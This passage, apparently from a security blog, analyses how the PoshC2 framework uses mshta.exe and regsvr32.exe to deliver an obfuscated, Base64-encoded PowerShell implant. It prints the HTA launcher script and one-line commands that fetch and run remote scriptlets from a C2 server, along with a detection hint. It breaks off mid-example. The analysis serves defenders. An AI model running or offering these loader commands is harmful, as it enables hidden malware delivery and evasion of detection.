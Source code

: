 <p><span data-contrast="auto">Using Living Off the Land Binaries (LOLBins), e.g., mshta.exe and regsvr32.exe, is a widely adopted MITRE technique (</span><a href="https://attack.mitre.org/techniques/T1218/"><span data-contrast="none">T.1218</span></a><span data-contrast="auto">) often used to break the malware delivery process into a chain of events designed to hinder detection. PoshC2 can, for example, rely on mshta.exe to proxy the execution of malicious VBScripts, JScripts, and PowerShell scripts. The technique is implemented by generating a file called Launcher.hta. This file features obfuscated strings (“Wscript.Shell” is split into chunks for example) and a Base64-encoded PowerShell implant, both simple yet effective techniques to bypass static detection:  </span><span data-ccp-props="{&quot;201341983&quot;:0,&quot;335559739&quot;:160,&quot;335559740&quot;:259}"> </span></p>
<p><strong><i>&lt;script&gt;</i></strong></p>
<p><strong><i>ao=new ActiveXObject(&#8220;W&#8221;+&#8221;S&#8221;+&#8221;cr&#8221;+&#8221;ip&#8221;+&#8221;t.&#8221;+&#8221;Sh&#8221;+&#8221;e&#8221;+&#8221;l&#8221;+&#8221;l&#8221;);</i></strong></p>
<p><strong><i>ao.run(&#8216;powershell -exec bypass -Noninteractive -windowstyle hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAASQBPAC4AUwB0AHIAZQBhAG0AUg</i><i>BlAGEA</i></strong></p>
<p><strong><i>ZABlAHIAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMA</i></strong></p>
<p><strong><i>&lt;&#8230;&gt;</i></strong></p>
<p><strong><i>G0AcAByAGUAcwBzACkAKQAsAFsAVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdA</i></strong></p>
<p><strong><i>DoAOgBBAFMAQwBJAEkAKQApAC4AUgBlAGEAZABUAG8ARQBuAGQAKAApAA==&#8217;, 0);window.close();</i></strong></p>
<p><strong><i>&lt;/script&gt;</i></strong><span data-ccp-props="{&quot;201341983&quot;:0,&quot;335559685&quot;:720,&quot;335559739&quot;:0,&quot;335559740&quot;:240}"> </span></p>
<p><span data-contrast="auto">Execution of powershell.exe with long arguments (in our case the Base64-encoded implant is more than 6000 characters long) should be considered a strong indicator of suspicious activity. </span><span data-ccp-props="{&quot;201341983&quot;:0,&quot;335559739&quot;:0,&quot;335559740&quot;:240}"> </span></p>
<p><span data-contrast="auto">Malicious HTA files can also be executed through an inline script. This hides the code of the implant and thereby also reduces the risk of a signature able to target it:</span></p>
<p><strong><i>mshta.exe &#8216;vbscript:GetObject(&#8220;script:https://127.0.0.1/Philips/v902/_cs&#8221;)(window.close)&#8217;</i> </strong></p>
<p><span data-contrast="auto">In comparison to Launcher.hta, the code of the HTA payload, retrieved by the inline VBScript, relies on the </span><i><span data-contrast="auto">Shell.Application</span></i><span data-contrast="auto"> ActiveX object rather than </span><i><span data-contrast="auto">Wscript.Shell</span></i><span data-contrast="auto">; also, tags like </span><i><span data-contrast="auto">Scriptlet</span></i><span data-contrast="auto"> and </span><i><span data-contrast="auto">Script</span></i><span data-contrast="auto"> are now mangled; however, the same PowerShell Base64-encoded command to execute the implant is used. All these techniques, again, are employed to make static analysis more difficult:</span><span data-ccp-props="{&quot;201341983&quot;:0,&quot;335559739&quot;:0,&quot;335559740&quot;:240}"> </span></p>
<p><strong><i>john@ubuntu:~$ curl -k https://127.0.0.1/Philips/v902/_cs</i> </strong></p>
<p><strong><i>&lt;sCrIptlEt&gt;&lt;scRIPt&gt;</i></strong></p>
<p><strong><i>a=new ActiveXObject(&#8220;Shell.Application&#8221;).ShellExecute(&#8220;powershell.exe&#8221;,&#8221; -exec bypass -Noninteractive -windowstyle hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAASQBPAC4AUwB0AHIAZ</i></strong></p>
<p><strong><i>QBhAG0AUgBlAGEAZABlAHIAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTA</i></strong></p>
<p><strong><i>HkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMA</i></strong></p>
<p><strong><i>&lt;&#8230;&gt;</i></strong></p>
<p><strong><i>G0AcAByAGUAcwBzACkAKQAsAFsAVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBB</i></strong></p>
<p><strong><i>AFMAQwBJAEkAKQApAC4AUgBlAGEAZABUAG8ARQBuAGQAKAApAA==&#8221;,&#8221;&#8221;,&#8221;open&#8221;,&#8221;0&#8243;);</i></strong></p>
<p><strong><i>&lt;/scRIPt&gt;&lt;/sCrIptlEt&gt;</i> </strong></p>
<p><span data-contrast="auto">Another method to proxy PowerShell execution is to use regsvr32.exe in combination with scrobj.dll, as shown below.</span><span data-ccp-props="{&quot;201341983&quot;:0,&quot;335559739&quot;:160,&quot;335559740&quot;:259}"> </span></p>
<p><strong><i>regsvr32 /s /n /u /i:https://127.0.0.1/Philips/v902/_rg scrobj.dll</i> </strong></p>
<p><span data-contrast="auto">Loaded by regsvr32.exe, scrobj.dll will download and execute the scriptlet, hosted by the server component of PoshC2. This scriptlet uses the</span><i><span data-contrast="auto"> Shell.Application</span></i><span data-contrast="auto"> ActiveX object to execute powershell.exe with the Base64-encoded implant execution command passed as an argument:</span><span data-ccp-props="{&quot;201341983&quot;:0,&quot;335559739&quot;:160,&quot;335559740&quot;:259}"> </span></p>
<p><strong><i>john@ubuntu:~$ curl -k https://127.0.0.1/Philips/v902/_rg</i> </strong></p>